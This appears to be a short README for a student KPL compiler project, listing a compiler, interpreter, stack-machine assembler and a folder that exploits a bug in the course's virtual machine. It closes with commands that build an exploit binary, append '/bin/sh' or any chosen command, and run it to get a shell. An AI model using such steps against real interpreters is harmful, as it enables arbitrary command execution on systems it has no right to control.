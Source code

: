 # KPL_compiler
* These are 4 folder:
  * KPL: the compiler, use in final test (written by Prof.)
  * interpreter: the virtual machine for running binary created by KPL(written by Prof.)
  * stack_machine_compiler: create binary from stack machine assembly. 
  * vm_exploit: vm has a bug, so well, exploit it. Turn out quite easy.
<pre>
  python exploit.py > asm #create asm file
  smc asm binary
  echo "/bin/sh" >> binary # or any command U want
  kplrun binary #pwn
</pre>
